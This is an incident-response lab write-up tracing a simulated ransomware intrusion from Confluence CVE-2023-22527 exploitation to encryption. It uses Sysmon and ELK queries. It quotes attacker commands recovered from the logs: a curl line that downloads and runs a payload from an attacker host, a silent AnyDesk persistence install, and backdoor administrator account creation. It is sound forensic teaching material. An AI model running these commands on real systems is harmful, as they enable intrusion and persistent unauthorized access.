

# DFIR Investigation of an ELPACO-team Ransomware Intrusion via Confluence CVE-2023-22527

## Case Summary

In September 2026, a threat actor compromised a corporate network by exploiting a critical Remote Code Execution (RCE) vulnerability (**CVE-2023-22527**)  in a public-facing Atlassian Confluence server. The vulnerability, an OGNL injection flaw in the template engine, allowed the attacker to execute arbitrary commands on the server without authentication by sending crafted POST requests to the `/template/aui/text-inline.vm` endpoint.

Upon gaining initial access, the threat actor deployed a **Metasploit Meterpreter** reverse shell payload named `HAHLGiDDb.exe`, establishing command and control (C2) communications back to their infrastructure. This provided the attacker with an interactive session on the compromised Confluence server, which served as the initial foothold into the network.

To establish persistent remote access, the threat actor staged `AnyDesk.exe` within the Confluence installation directory through a process running under the `NT AUTHORITY\NETWORK SERVICE` context. Shortly afterward, AnyDesk was silently installed under the `NT AUTHORITY\SYSTEM` account using the `--install`, `--start-with-win`, and `--silent` arguments. The installation also created an `AnyDesk.lnk` shortcut in the system-wide Startup folder, providing logon-based persistence and allowing the remote-access software to start automatically during subsequent user logons. The attacker then set an unattended access password, allowing them to reconnect at will without user interaction.

Simultaneously, the threat actor executed a batch script (`u1.bat`) to create a local administrator account named **"noname"** using `net user` and `net localgroup administrators` commands. This provided a secondary persistence mechanism: a dedicated Windows account with full administrative privileges that could be used to log in through AnyDesk with an isolated desktop session, reducing the risk of detection by legitimate administrators.

The threat actor then connected to the server via AnyDesk and authenticated to Windows using the newly created **"noname"** account (Logon Type 10 — Remote Interactive), establishing a clean desktop session separate from any active administrator sessions.

For **privilege escalation**, the attacker attempted to exploit **Zerologon (CVE-2020-1472)** against the domain controller to reset the computer account password. However, this attempt failed as the Domain Controller detected and blocked the non-compliant Netlogon secure channel connection (Netlogon Event ID 5836). Consequently, the adversary pivoted to **Mimikatz** to harvest credentials locally from LSASS memory on `vulnsrv` , extracting Domain Administrator NTLM hashes to facilitate Pass-the-Hash (PtH) attacks.

During the **discovery** phase, the threat actor utilized **NetScan** (SoftPerfect Network Scanner) to map the internal network, identifying live hosts, open ports, and available shares across the domain. This provided the attacker with a comprehensive view of the environment, including file servers, domain controllers, and other high-value targets for lateral movement.

Using the harvested domain admin credentials, the threat actor performed **lateral movement** across the network using **WMIExec** (Windows Management Instrumentation), executing commands remotely on multiple machines. On each target, **Windows Defender** was disabled remotely to prevent detection of the ransomware payload.

For the **impact** phase, the threat actor deployed **ELPACO-team**, a variant of the **Mimic ransomware** family. The ransomware was delivered as a **7-Zip Self-Extracting Archive (SFX)** that, upon execution, silently extracted its components to a staging directory at `%LocalAppData%\{F6A3737E-E3B0-8956-8261-0121C68105F3}\`. The main orchestrator binary **masqueraded** as a legitimate system process by renaming itself to **`svhostss.exe`** (a deliberate typo-squat of `svchost.exe`), a defense evasion technique.

A defining characteristic of this ransomware variant is its abuse of the legitimate **Everything** search utility (`Everything.exe`) by Voidtools. Rather than performing slow recursive directory traversal, the ransomware leveraged Everything's ability to query the NTFS Master File Table (MFT) and USN Journal to rapidly index all target files on the system within seconds — a technique that significantly accelerated the encryption process.

Once indexing was complete, the ransomware encrypted files across the compromised systems, appending the **`.ELPACO-team`** extension to each affected file. A ransom note named **`Decryption_INFO.txt`** was dropped in every directory containing encrypted files. The note instructed victims to contact the threat actor via email (`de_tech@tuta.io`) or Telegram (`@Online7_365`) for decryption key negotiation.

<figure><figcaption><p>DetectionLab Network Diagram</p></figcaption></figure>

## Initial Triage and Ransomware Discovery <a href="#initial-triage-and-ransomware-discovery" id="initial-triage-and-ransomware-discovery"></a>


_Please note that the ransomware binaries (`ELPACO-team.exe` and `svhostss.exe`), as well as the integrated usage of the `Everything.exe` utility for reconnaissance, are part of a custom simulation built specifically for this controlled lab environment. While precisely engineered to mimic the real-world Tactics, Techniques, and Procedures (TTPs)—such as automated Master File Table enumeration, mass file encryption, and registry persistence—these are safe, simulated artifacts created solely for educational and digital forensic research purposes rather than original in-the-wild malware._


The investigation began at the end of the attack lifecycle. Critical servers were found paralyzed, with files appended with the `.ELPACO-team` extension. Across the affected directories, the threat actor distributed a ransom note named `Decryption_INFO.txt` .

On the Desktop and across multiple directories under `C:\LabData`, I confirmed files were encrypted with the `.ELPACO-team` extension ([T1486](https://attack.mitre.org/techniques/T1486/)).

<figure><figcaption><p>Files encrypted with .ELPACO-team extension</p></figcaption></figure>

Also, I found the ransom note called `Decryption_INFO.txt` dropped in Desktop and every directory containing encrypted files, which contained Decryption ID, Telegram User and email addresses for contacting the threat actors.

<figure><figcaption><p>The ransom note containing email addresses and telegram user for the threat actors</p></figcaption></figure>

My next goal is to identify the process that encrypted the files and dropped the ransom note, in order to understand how the ransomware was delivered to these hosts by tracing the ransomware activities back to their origin.

Before proceeding, I verified the logging mechanisms in the environment and confirmed the presence of Sysmon.

By filtering for files with the `.ELPACO-team` extension, I discovered that `svhostss.exe` was responsible for encryption, with the last file encrypted on `2026-09-23` at  `10:06:04` .

`file.extension: "ELPACO-team"`&#x20;

<figure><figcaption><p>svhostss.exe, the process responsible for file encryption</p></figcaption></figure>

Through the analysis of the compromised hosts, I determined that the ransomware was deployed and executed on `FILE-server` and `BACKUP`.

<figure><figcaption><p>.ELPACO-team extension only appearing on FILE-server, BACKUP</p></figcaption></figure>

To trace `svhostss.exe` back to its origin, I filtered file creation events on `FILE-server` and sorted them in chronological order. At 10:06:01, the logs revealed that `ELPACO-team.exe` created `svhostss.exe` on disk, indicating that the executable was likely responsible for extracting or staging the ransomware component.

`host.hostname: "FILE-server" and event.code: "11" and "svhostss.exe"`

<figure><figcaption></figcaption></figure>

I then focused on `ELPACO-team.exe` to determine what was executed and how `svhostss.exe` was dropped onto the compromised hosts. I narrowed my scope to `FILE-server` for faster querying:

`host.hostname: "FILE-server" and file.path: *ELPACO-team.exe*`&#x20;

I found 6 events related to `ELPACO-team.exe`. The telemetry showed that the copy of `ELPACO-team.exe` located on the `NONAME` user's Desktop acted as the self-extracting launcher, creating additional ransomware components within the staging directory at `%LocalAppData%\{F6A3737E-E3B0-8956-8261-0121C68105F3}\`. The activity occurred under the compromised `DETECTIONLAB\NONAME` account.

<figure><figcaption></figcaption></figure>

My next step was to determine how this file was staged and executed on the system.

`host.hostname: "FILE-server" and event.code: ("1" or "11") and *Desktop\\ELPACO-team.exe*`

The file `ELPACO-team.exe` was initially created on the Desktop at `10:05:57.963` UTC by `Explorer.EXE`. Shortly afterward, at `10:06:00.509` UTC, the executable was launched by `explorer.exe`, indicating execution from an interactive Windows desktop session. At this stage, however, the available telemetry was insufficient to determine whether the session originated locally or through a remote-access mechanism.

To determine the origin of that interactive session, I investigated network activity immediately preceding the execution of `ELPACO-team.exe`.

<figure><figcaption><p>ELPACO-team.exe file creation.</p></figcaption></figure>

<figure><figcaption><p>ELPACO-team.exe process creation.</p></figcaption></figure>

**To determine how the threat actor gained remote access to `FILE-server` and identify the lateral movement mechanism, I examined Sysmon network connection events (Event ID 3) targeting the default RDP port, TCP/3389.**

`host.hostname: "FILE-server" and event.code: "3" and destination.port: 3389`

**The query returned four inbound TCP/3389 connection events. The most relevant connection occurred at `10:03:02.862` UTC, shortly before the ransomware payload was executed. Sysmon network telemetry showed `svchost.exe` handling an inbound connection from `VULNSRV` (`192.168.30.10:49974`) to `FILE-server` (`192.168.20.50:3389`).**

Corroborating the Sysmon network telemetry, Windows Security Event ID 4624 recorded a successful network logon (Logon Type 3) at `10:03:02`, using NTLM V2 authentication for the compromised account `DETECTIONLAB\NONAME`. The authentication originated from `VULNSRV` (`192.168.30.10`), matching the source of the previously observed TCP/3389 connection. Although Logon Type 3 alone does not confirm an interactive RDP logon, its timing and source, when correlated with the `mstsc.exe` execution and RDP network activity, strongly support RDP as the lateral movement mechanism.([T1021.001](https://attack.mitre.org/techniques/T1021/001/))

<figure><figcaption></figcaption></figure>

Having traced the RDP connection back to `VULNSRV` (`192.168.30.10`), I pivoted the investigation to the suspected patient-zero host to reconstruct the attack chain further backward toward the original external access vector.

`host.hostname: "VULNSRV" and event.code: "3" and destination.ip: "192.168.20.50" and destination.port: 3389`&#x20;

At `10:03:02.661`, Sysmon recorded an outbound connection generated by the native Windows Remote Desktop client `mstsc.exe` (`C:\Windows\System32\mstsc.exe`) under the `noname` account. The connection originated from `VULNSRV` (`192.168.30.10:49974`) and targeted `FILE-server` (`192.168.20.50:3389`). The matching source port, destination, timestamps, and process context strongly support RDP as the lateral movement mechanism between the two hosts.

<figure><figcaption></figcaption></figure>

Next, I investigated the execution lineage of `mstsc.exe` to determine how the threat actor launched the Remote Desktop client and identify its parent process.

`host.hostname: "VULNSRV" and event.code: "1" and process.name: "mstsc.exe"`&#x20;

Process lineage analysis showed that `mstsc.exe` was launched by `netscan.exe` with the command line `mstsc.exe /v:192.168.20.50`. This strongly suggests that the operator initiated the RDP connection through SoftPerfect Network Scanner, consistent with hands-on-keyboard activity on `VULNSRV`.

<figure><figcaption></figcaption></figure>

My next objective was to determine how `netscan.exe` was introduced onto `VULNSRV` and identify the remote-access mechanism the adversary used before beginning internal reconnaissance.

`host.hostname: "VULNSRV" and event.code: "11" and file.path: "`_`netscan`_`"`

Sysmon file-creation telemetry revealed that `netscan.exe` was written to the `noname` user's Desktop by an AnyDesk process at `09:37:58`. This provides strong evidence that AnyDesk's file-transfer functionality was used to stage NetScan on `VULNSRV` before internal reconnaissance and subsequent RDP-based lateral movement.

<figure><figcaption></figcaption></figure>

#### Tracing the AnyDesk Deployment on VULNSRV

After identifying AnyDesk as the process responsible for staging `netscan.exe` on `VULNSRV`, I pivoted further backward in the timeline to determine when the remote-access utility was first introduced onto the host and how it was configured.

`host.hostname: "VULNSRV" and event.code: ("1" or "11") and (process.name: *AnyDesk* or file.path: *AnyDesk*)`

<figure><figcaption></figcaption></figure>

At `09:32:29.455` UTC, Sysmon Event ID 11 recorded the creation of `AnyDesk.exe` at `C:\Program Files\Atlassian\Confluence\AnyDesk.exe`. The file was written by a randomly named executable, `HAHLGiDDb.exe`, executing from the `NETWORK SERVICE` temporary directory under the `NT AUTHORITY\NETWORK SERVICE` account.

This was a significant pivot point in the investigation. Rather than appearing in a typical user-controlled directory such as Downloads or Desktop, the AnyDesk binary was written directly into the Atlassian Confluence installation directory by a process operating in a service-account context. While this event alone does not establish how the Confluence server was initially compromised, it links the earliest observed AnyDesk artifact to suspicious server-side activity and makes `HAHLGiDDb.exe` the next process of interest.

<figure><figcaption></figcaption></figure>

Approximately 36 seconds later, at `09:33:05.811` UTC, Sysmon Event ID 1 showed the newly staged `AnyDesk.exe` being executed by `cmd.exe` under the `NT AUTHORITY\SYSTEM` account. The recorded command line was:

`anydesk.exe --install C:\programdata\anydesk --start-with-win --silent`

The command-line arguments show that AnyDesk was installed silently and configured to start automatically with Windows. The execution under the `SYSTEM` account further indicates that the installation was performed with high privileges. At this stage of the investigation, however, the telemetry does not yet explain how the preceding activity obtained SYSTEM-level execution.([T1219](https://attack.mitre.org/techniques/T1219/))

<figure><figcaption></figcaption></figure>

At `09:33:07.653` UTC, less than two seconds after the AnyDesk installation process began, Sysmon Event ID 11 recorded `AnyDesk.exe` creating the shortcut `AnyDesk.lnk` inside the Windows Startup folder:

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\AnyDesk.lnk`

This artifact corroborates the `--start-with-win` installation argument and demonstrates that AnyDesk established a logon-based persistence mechanism on `VULNSRV`, allowing the remote-access software to execute automatically during subsequent user logons. ([T1547.001](https://attack.mitre.org/techniques/T1547/001/))

The resulting timeline shows that AnyDesk was staged within the Confluence directory at `09:32:29`, silently installed as `SYSTEM` at `09:33:05`, and configured for persistence seconds later. Several minutes afterward, the same remote-access software was observed writing `netscan.exe` to the `noname` user's Desktop, linking the earlier AnyDesk deployment to the subsequent internal reconnaissance and RDP-based lateral movement.

The next investigative pivot therefore became `HAHLGiDDb.exe`, the process responsible for creating the original AnyDesk binary. Identifying its parent process and command line would help reconstruct the attack chain further backward toward the compromise of the Confluence service.

**Having identified `HAHLGiDDb.exe` as the process responsible for creating the initial AnyDesk binary, I pivoted further backward to determine how this executable was introduced onto `VULNSRV` and what process had launched it.**

<figure><figcaption></figcaption></figure>

At `09:31:13.021` UTC, Sysmon Event ID 1 showed `HAHLGiDDb.exe` executing from the `NETWORK SERVICE` temporary directory. Its parent process was `cmd.exe`, and the recorded command line revealed that the executable had first been retrieved over HTTP from `10.10.10.10:8080` using the native Windows `curl` utility and then immediately launched in the background:

`cmd.exe /c "curl -sKo %TEMP%\HAHLGiDDb.exe http://10.10.10.10:8080/HAHLGiDDb.exe & start /B %TEMP%\HAHLGiDDb.exe"`

This established that the payload was transferred onto the host and executed under the `NT AUTHORITY\NETWORK SERVICE` context. However, the origin of the `cmd.exe` process itself was still unknown, making its parent process the next investigative pivot.([T1105](https://attack.mitre.org/techniques/T1105/))

**Having established that `HAHLGiDDb.exe` was downloaded and executed through `cmd.exe`, I pivoted one step further backward to identify the process responsible for spawning the command shell.**

<figure><figcaption></figcaption></figure>

**Sysmon Event ID 1 revealed that the `cmd.exe` process responsible for downloading `HAHLGiDDb.exe` was spawned directly by the Confluence Tomcat service, `C:\Program Files\Atlassian\Confluence\bin\tomcat9.exe`, at `09:31:12.761` UTC. Both processes were executing under the `NT AUTHORITY\NETWORK SERVICE` account.**

**The child command shell subsequently retrieved `HAHLGiDDb.exe` from `http://10.10.10.10:8080/HAHLGiDDb.exe` and executed it from the service account's temporary directory. This process lineage provides direct evidence that arbitrary operating-system commands were executed from the Confluence application service context.(**[T1059.003](https://attack.mitre.org/techniques/T1059/003/))

**At this stage, the telemetry establishes server-side command execution originating from the Confluence Tomcat process; however, the mechanism that triggered this execution remained unknown. Further investigation was required to identify the original access vector and determine how the attacker first achieved code execution through the Confluence service.**

To determine whether the payload download represented the attacker's first command execution through the Confluence service, I expanded the investigation window and reviewed earlier child processes spawned by `tomcat9.exe`.

<figure><figcaption></figcaption></figure>

**No earlier suspicious child processes were observed from `tomcat9.exe` within the available telemetry. Therefore, the `whoami.exe` execution at `09:28:57.151` UTC represents the earliest observed evidence of server-side command execution through the Confluence service. The command executed under the `NT AUTHORITY\NETWORK SERVICE` context, consistent with an operator validating the privileges and execution context of the compromised application service.** **(**[T1033](https://attack.mitre.org/techniques/T1033/))

**Having identified `whoami.exe` as the earliest observed suspicious child process spawned by the Confluence Tomcat service, I examined network activity immediately preceding its execution to identify the remote system communicating with the application.**

<figure><figcaption></figcaption></figure>

**Sysmon Event ID 3 revealed a TCP connection at `09:28:46.293` UTC from `10.10.10.10:43448` to `VULNSRV` (`192.168.30.10`) on TCP port `8090`, the port associated with the Confluence service. The connection was handled by `tomcat9.exe` under the `NT AUTHORITY\NETWORK SERVICE` account.**

**Approximately 10.8 seconds later, the same Tomcat process spawned `whoami.exe`. While the network event alone does not establish the contents of the request or the technique used to trigger command execution, the close temporal correlation identifies `10.10.10.10` as a significant source of interest in the investigation.**

**This IP address became even more significant because the same host was later referenced as the HTTP source from which `HAHLGiDDb.exe` was downloaded at `09:31:12` UTC. This correlation suggests that the system communicating with the Confluence service was also used to stage subsequent tooling, warranting further investigation into the HTTP activity preceding the initial `whoami.exe` execution.**

**To determine what activity immediately preceded the first observed command execution, I reviewed the Confluence HTTP access logs around `09:28:57` UTC and correlated them with the Sysmon timeline.**

```
[23/Sep/2026:02:28:49 -0700] - http-nio-8090-exec-7 10.10.10.10 GET / HTTP/1.1 302 3818ms - - python-requests/2.32.5
[23/Sep/2026:02:28:57 -0700] - http-nio-8090-exec-1 10.10.10.10 GET /login.action?os_destination=%2Findex.action&permissionViolation=true HTTP/1.1 200 7135ms 7554 - python-requests/2.32.5
[23/Sep/2026:02:28:57 -0700] - http-nio-8090-exec-9 10.10.10.10 POST /template/aui/text-inline.vm HTTP/1.1 200 441ms 6858 - python-requests/2.32.5
```

**The access logs revealed that `10.10.10.10` first contacted the Confluence application using the Python Requests library. At `02:28:57 -0700` (`09:28:57 UTC`), the same source issued a `POST` request to `/template/aui/text-inline.vm`, which returned HTTP `200`.**

**Critically, Sysmon recorded `tomcat9.exe` spawning `whoami.exe` at `09:28:57.151` UTC—the same second as the POST request. The `/template/aui/text-inline.vm` endpoint is associated with the template-injection attack path used to exploit Confluence CVE-2023-22527. The precise temporal correlation between the malicious-looking HTTP request and the resulting process execution provides strong evidence that the Confluence server was exploited through CVE-2023-22527 to achieve remote code execution.** **(T1190 — Exploit Public-Facing Application)**

> **Because the standard access log does not preserve the POST body, the injected command itself is not visible in the HTTP telemetry; however, the endpoint, source, timing, and resulting `whoami.exe` execution strongly correlate the request with the observed server-side command execution.**

**Version verification showed that the compromised server was running Confluence `8.5.3`. According to Atlassian's advisory, versions `8.5.0` through `8.5.3` are affected by CVE-2023-22527, while `8.5.4` contains the corresponding fix. This confirmed that the application version observed in the environment was vulnerable to the template-injection RCE technique associated with the suspicious `/template/aui/text-inline.vm` request.** [Atlassian Support](https://support.atlassian.com/atlassian-knowledge-base/kb/faq-for-cve-2023-22527/?utm_source=chatgpt.com)

**Correlating the vulnerable Confluence version, the suspicious POST request to `/template/aui/text-inline.vm`, and the near-simultaneous execution of `whoami.exe` by `tomcat9.exe` provides high-confidence evidence that the initial compromise occurred through exploitation of CVE-2023-22527.** **(**[**T1190**](https://attack.mitre.org/techniques/T1190/)**)**


Until now, my analysis has revealed that the attack progressed between **09:28 (execution of whoami.exe)** and **10:06:04 (encryption of the last file by the ransomware)** on September 23, 2026.


After identifying the initial access vector as the exploitation of **CVE-2023-22527** on the Confluence server located in the DMZ, I shifted my investigation toward reconstructing the attacker's post-exploitation activities. My objective was to trace how the initial compromise evolved into privileged access, persistence, and lateral movement across the internal network, ultimately leading to ransomware deployment on the **BACKUP** and **FILE-SERVER** systems.

## Confluence Server (VULNSRV)

Continuing my investigation of **VULNSRV** at **09:31:12**, I identified a significant **Sysmon Event ID 1** showing that `cmd.exe` was spawned by the Confluence process (`tomcat9.exe`). The command used `curl` to download a suspicious executable (`HAHLGiDDb.exe`) from **10.10.10.10:8080** into the `%TEMP%` directory and execute it in the background using `start /B`. This activity strongly suggests that the attacker leveraged the compromised Confluence server to execute commands and deploy a malicious payload.

<figure><figcaption><p>Suspicious payload execution via Confluence Server.</p></figcaption></figure>

Immediately afterward, **curl.exe** was executed at **09:31:12**, downloading the suspicious executable (`HAHLGiDDb.exe`) from **10.10.10.10:8080**. A subsequent **Sysmon Event ID 11 (File Creation)** at **09:31:13** confirmed that the file was successfully created in `C:\Windows\SERVIC~1\NETWOR~1\AppData\Local\Temp\` on **VULNSRV**.

<figure><figcaption><p>curl.exe executed.</p></figcaption></figure>

<figure><figcaption><p>Download <code>HAHLGiDDb.exe</code>  by curl.exe</p></figcaption></figure>

To further investigate the activities associated with `HAHLGiDDb.exe`, I used the following **ELK query**, sorting the results by `@timestamp` in ascending order to reconstruct the sequence of events chronologically.

`host.hostname:"VULNSRV" and *HAHLGiDDb.exe*`&#x20;

## DLL Loading Analysis – HAHLGiDDb.exe

Further analysis of **Sysmon Event ID 7 (**[**Image Load**](https://learn.microsoft.com/en-us/windows/security/operating-system-security/sysmon/sysmon-events)) revealed that `HAHLGiDDb.exe` loaded several Windows system libraries immediately after execution at **09:31:13**, including `ntdll.dll`, `kernel32.dll`, `KernelBase.dll`, [`ws2_32.dll`](https://learn.microsoft.com/en-us/windows/win32/winsock/), `rpcrt4.dll`, and [`mswsock.dll`](https://learn.microsoft.com/en-us/windows/win32/api/mswsock/). Notably, the loading of networking-related libraries such as `ws2_32.dll` and `mswsock.dll` suggests that the executable may have been preparing to perform network communication.

<figure><figcaption></figcaption></figure>

Just milliseconds after loading the networking-related DLLs, `HAHLGiDDb.exe` established a **TCP connection** from **VULNSRV (192.168.30.10)** to **10.10.10.10** on port **12385** at **09:31:13.307**, as recorded by **Sysmon Event ID 3 (Network Connection)**. This activity confirms that the suspicious executable initiated outbound network communication shortly after execution, suggesting a potential **Command-and-Control (C2) connection**, although further analysis is required to confirm its purpose.

<figure><figcaption></figcaption></figure>

Following the initial network connection, further analysis of **Sysmon Event ID 7 (Image Load)** revealed that `HAHLGiDDb.exe` continued loading multiple Windows system libraries between **09:31:13 and 09:31:16**. Notable DLLs included `crypt32.dll`, `bcrypt.dll`, and `cryptsp.dll`, associated with cryptographic operations; `winhttp.dll` and `wininet.dll`, supporting HTTP-based communication; and `netapi32.dll`, `mpr.dll`, and `netutils.dll`, associated with network and resource management. These findings suggest that the executable possessed capabilities potentially relevant to **encrypted communications, network interactions, and internal network enumeration**, although the DLL loading events alone do not confirm that these activities were performed.

At **09:31:16.379**, a **Sysmon Event ID 18 (Pipe Connected)** revealed that `HAHLGiDDb.exe` (PID 1424), running under the **NETWORK SERVICE** account, connected to a named pipe (`\wkssvc`) on **VULNSRV**. This pipe name is associated with the Windows Workstation Service and RPC communication. The event suggests potential interaction with Windows networking services, although further investigation is required to determine whether the connection was used for internal network enumeration or other malicious activity.

<figure><figcaption></figcaption></figure>

Shortly after the named pipe connection, between **09:31:16.438 and 09:31:16.450**, additional **Sysmon Event ID 7 (Image Load)** logs showed that `HAHLGiDDb.exe` loaded several networking-related DLLs, including `cscapi.dll`, `nsi.dll`, `dhcpcsvc6.dll`, `dhcpcsvc.dll`, and `dnsapi.dll`. These libraries are associated with network configuration, DHCP, DNS resolution, and network resource access. This activity suggests that the executable was initializing additional networking functionality, potentially supporting further communication or network discovery. However, the DLL loading events alone do not confirm that network enumeration occurred.

<figure><figcaption></figcaption></figure>

At **09:31:33**, further analysis revealed a sequence of suspicious activities performed by `HAHLGiDDb.exe` (PID 1424) on **VULNSRV**. A **Sysmon Event ID 17 (Pipe Created)** recorded the creation of a named pipe (`\bdlmmu`), followed by **Event ID 11 (File Creation)** showing that the executable created `bdlmmu.dll` in the Windows TEMP directory. Just **5 milliseconds later**, **Event ID 23 (File Delete)** confirmed the deletion of the same DLL. This rapid creation-and-deletion sequence, combined with the similarly named pipe, suggests potential temporary payload staging or an attempt to minimize forensic artifacts, although the exact purpose requires further investigation.

<figure><figcaption><p>\bdlmmu Pipe Creation.</p></figcaption></figure>

<figure><figcaption><p>bdlmmu.dll File Creation.</p></figcaption></figure>

<figure><figcaption><p>bdlmmu.dll File Deleted.</p></figcaption></figure>

At **09:31:33.967**, `HAHLGiDDb.exe` (PID 1424) created another named pipe (`\0029482318be6784`) on **VULNSRV**. The randomly generated pipe name suggests potential inter-process communication associated with the suspicious executable.

<figure><figcaption></figcaption></figure>

At **09:31:34.106**, **Sysmon Event ID 10 (Process Access)** revealed that `HAHLGiDDb.exe` (PID 1424) accessed `svchost.exe` (PID 920) with **GrantedAccess: 0x1f3fff**. This elevated level of process access is suspicious and may indicate preparation for process manipulation or injection, although the event alone does not confirm either technique.

<figure><figcaption></figcaption></figure>

At **09:32:21.153**, `HAHLGiDDb.exe` created a batch script named `u1.bat` in the Confluence installation directory (`C:\Program Files\Atlassian\Confluence\`). This activity suggests that the attacker may have been preparing additional commands or automating subsequent stages of the attack.

<figure><figcaption></figcaption></figure>

At **09:32:29.455**, another **Sysmon Event ID 11** revealed that `HAHLGiDDb.exe` created `AnyDesk.exe` in the Confluence installation directory. Since **AnyDesk** is a legitimate remote access tool, its deployment by the suspicious executable raises concerns about potential unauthorized remote access and the establishment of an additional access mechanism on **VULNSRV**. However, further evidence is needed to confirm its execution or use by the attacker.

<figure><figcaption></figcaption></figure>

Following the initial compromise of **VULNSRV** through **CVE-2023-22527**, the attacker deployed `HAHLGiDDb.exe` as a post-exploitation payload. The executable established a TCP connection to **10.10.10.10:12385**, followed by the creation of `u1.bat` and `AnyDesk.exe`. Correlating these events strongly suggests that the payload functioned as a **Command-and-Control (C2) agent**, potentially facilitating the delivery of additional attacker-controlled tools and enabling further post-exploitation activities.

## Named Pipe Activity Analysis – Potential Inter-Process Communication (IPC)

Further analysis of **Sysmon Events ID 17 and 18** revealed multiple named pipe activities associated with `HAHLGiDDb.exe` (PID 1424) on **VULNSRV**. Earlier events showed a connection to `\wkssvc` and the creation of two pipes, `\bdlmmu` and `\0029482318be6784`. Later, at **09:32:38.850**, the payload generated additional **Pipe Created** and **Pipe Connected** events involving `<Anonymous Pipe>`. These activities suggest that the payload was utilizing **Inter-Process Communication (IPC)** mechanisms, potentially to coordinate execution or exchange data between processes. However, further investigation is required to determine the exact purpose of these pipe interactions and their role in the attack chain.

<figure><figcaption></figcaption></figure>

### 1. Named Pipe Activity – Potential Privilege Escalation

Further correlation revealed a more suspicious sequence. At **09:31:33.967**, `HAHLGiDDb.exe` created a named pipe (`\0029482318be6784`), followed by a connection recorded under the **System process (PID 4)** at **09:31:34.093**. Just **13 milliseconds later**, **Sysmon Event ID 10** showed that the payload accessed `svchost.exe` (PID 920) with **GrantedAccess: 0x1f3fff**. This sequence raised suspicions of a potential **Named Pipe Impersonation** technique used for privilege escalation.

<figure><figcaption><p>Create \0029482318be6784 NamePipe by <code>HAHLGiDDb.exe</code>.</p></figcaption></figure>

<figure><figcaption><p>Register a connection to the same Named Pipe under System (PID 4).</p></figcaption></figure>

<figure><figcaption><p><code>HAHLGiDDb.exe</code> access the svhost.exe (PID920)</p></figcaption></figure>

### 2. Privilege Escalation to NT AUTHORITY\SYSTEM

At **09:32:38.870**, **Sysmon Event ID 1** revealed that `HAHLGiDDb.exe` spawned `cmd.exe` (PID 6444) under **NT AUTHORITY\SYSTEM**, despite its parent process running as **NT AUTHORITY\NETWORK SERVICE**. The event recorded `IntegrityLevel: System` and `LogonId: 0x3e7`, confirming the creation of a highly privileged command shell. This finding, combined with the preceding named pipe activity, strongly supports a successful privilege escalation scenario, potentially involving **Token Impersonation (T1134.001)**.

<figure><figcaption><p>SYSTEM-Level Command Shell Creation.</p></figcaption></figure>

### 3. Elevated Shell Execution and Process Access

Just **7 milliseconds later**, at **09:32:38.877**, **Sysmon Event ID 10** showed that `HAHLGiDDb.exe` accessed the newly spawned `cmd.exe` (PID 6444) with **GrantedAccess: 0x1fffff**. Further process tree analysis confirmed that the elevated shell subsequently executed system reconnaissance commands, including a query targeting the built-in **Administrators group (SID: S-1-5-32-544)**. This establishes that the SYSTEM-level shell was actively used for post-exploitation activities rather than merely being created.

<figure><figcaption><p>Elevated Command Shell Process Access.</p></figcaption></figure>

<figure><figcaption><p>Administrators Group Enumeration on VULNSRV.</p></figcaption></figure>

Overall, the collected telemetry confirms that the attacker progressed from a payload running under **NETWORK SERVICE** to executing commands with **SYSTEM-level privileges**. Although the observed named pipe activity is consistent with a potential impersonation-based privilege escalation technique, the exact token manipulation mechanism could not be conclusively determined from the available logs.

## Post-Exploitation and Persistence

Following the successful establishment of the **SYSTEM-level command shell**, further analysis revealed suspicious account management activities on **VULNSRV**. Earlier, at **09:32:21.153**, `HAHLGiDDb.exe` had created a batch script named `u1.bat` in the Confluence installation directory.

### 1. Investigating the Elevated Shell's Child Processes

To reconstruct the attacker's activities after obtaining SYSTEM privileges, I used the following KQL query in **Elastic Discover** to identify all processes spawned by the elevated `cmd.exe` (PID 6444). The results were sorted by `@timestamp` in ascending order to establish a chronological sequence of the commands executed on VULNSRV.

```
host.hostname:"VULNSRV" and
 process.parent.entity_id:"{571E559C-9CB6-6AB3-2211-000000004400}"
```

<figure><figcaption><p>Child processes spawned by the SYSTEM-level command shell.</p></figcaption></figure>

### 2. System and Privilege Enumeration

The first significant activity occurred at **09:32:43.584**, when **Sysmon Event ID 1** recorded the execution of a new `cmd.exe` process (PID 5332) under the SYSTEM security context. The command queried the built-in **Administrators group (SID: S-1-5-32-544)** using WMIC.

This activity indicates that the attacker was enumerating privileged groups on the compromised server, potentially to identify administrative access before performing additional account-management operations.

```
cmd.exe /c WMIC Group Where "SID = 'S-1-5-32-544'" Get Name /Value | Find "="
```

<figure><figcaption><p>Administrators Group Enumeration via WMIC.</p></figcaption></figure>

### 3. Local Administrator Account Creation

At **09:32:58.329**, the elevated command shell executed `net.exe` to create a local user account named `noname`. Just **120 milliseconds later**, at **09:32:58.449**, another `net.exe` process was launched to add the newly created account to the local **Administrators** group.

<figure><figcaption><p>Creat noname User Account and Password Slepoy_123.</p></figcaption></figure>

<figure><figcaption><p>Add noname account to Local Administrator Group.</p></figcaption></figure>

At **09:32:58.482**, `WMIC.exe` was subsequently executed to disable password expiration for `noname`. All three processes shared the same parent process entity ID, confirming that these administrative commands originated from the previously identified SYSTEM-level shell.

<figure><figcaption><p>Password Expiration Configuration.</p></figcaption></figure>

To verify whether these commands succeeded, I correlated the process creation events with the Windows Security Logs. **Event ID 4720** confirmed the creation of `noname` at **09:32:58.386**, while **Event ID 4732** confirmed that the account was added to the local Administrators group at **09:32:58.475**. Additionally, **Event ID 4738** recorded the account configuration change associated with disabling password expiration.

Together, these findings confirm the establishment of a privileged local account, consistent with **Account Creation for Persistence (T1136.001)**.

### 4. AnyDesk Deployment and Remote Access Persistence

Following the account creation activities, the investigation revealed the deployment of **AnyDesk**, a legitimate remote administration tool.

